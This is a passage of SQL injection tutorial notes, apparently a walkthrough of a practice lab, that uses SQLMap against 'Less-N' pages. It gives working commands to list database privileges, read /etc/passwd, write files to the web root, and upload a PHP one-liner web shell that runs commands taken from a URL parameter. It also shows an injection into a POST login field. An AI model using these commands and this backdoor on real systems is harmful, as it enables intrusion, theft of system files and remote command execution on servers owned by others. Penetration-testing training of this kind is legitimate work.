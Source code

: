 To get this we'll use the --privileges switch in SQLMap as follows:
`./sqlmap.py -u [http://192.168.50.2/Less-1/?id=2](http://192.168.50.2/Less-1/?id=2) --privileges`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6dd02e3d-e176-4d75-94ee-3727e7e16784/Untitled.png)

user has `FILE` privileges available, and we can utilize this to read/write files from the injection
if the file system permissions allow this; MySQL runs a separate user account to read/write files to the file system in Linux.

### `Reading files`

We'll use the --file-read switch in SQLMap followed by the full path of the file we want to download:
`./sqlmap.py -u [http://107.170.95.147/Less-1/?id=1](http://107.170.95.147/Less-1/?id=1) --file-read=/etc/passwd`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5071cd54-b483-4223-b5e1-d8412f82002c/Untitled.png)

### `Writing files`

For purposes of demonstration I've created a file locally at `/root/sqlmap-1.0/` packt with the content `hello world!` and will upload it to the target's /var/www/ packt.html folder as follows:
`/sqlmap.py -u [http://107.170.95.147/Less-1/?id=1](http://107.170.95.147/Less-1/?id=1) --file-write=/root/sqlmap-1.0/packt --file-dest=/var/www/packt.html`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/33ba6204-37e1-4762-aaf7-9cc2cf3f8659/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e22045a8-fed1-43b4-90ec-eeec16e7bbd2/Untitled.png)

Sweet! The file is now live. Going one step ahead, let us upload a PHP one-liner backdoor shell through SQLMap as follows:
PHP one-liner shell: `<?php system($_GET[1337]); ?>`.
`/sqlmap.py -u [http://107.170.95.147/Less-1/?id=1](http://107.170.95.147/Less-1/?id=1) --file-write=shell.php --file-dest=/var/www/shell-php.php`

---

# `Handling injections in a POST request`

In the Username field we try to insert a stray character to break the query as we did before. Let's see what happens when inserting “ test’ “:

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c813a91d-06af-4594-b744-a7f09352cfb9/Untitled.png)

If we check the HTTP request we can see the infected parameter:

![the affected parameter is uname](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/14273290-cf13-4f56-8ce6-3521eaf9a339/Untitled.png)

the affected parameter is uname

`./sqlmap.py -u [http://192.168.50.2/Less-11/](http://192.168.50.2/Less-11/) --data "uname=test&passwd=&submit=Submit" -p uname`
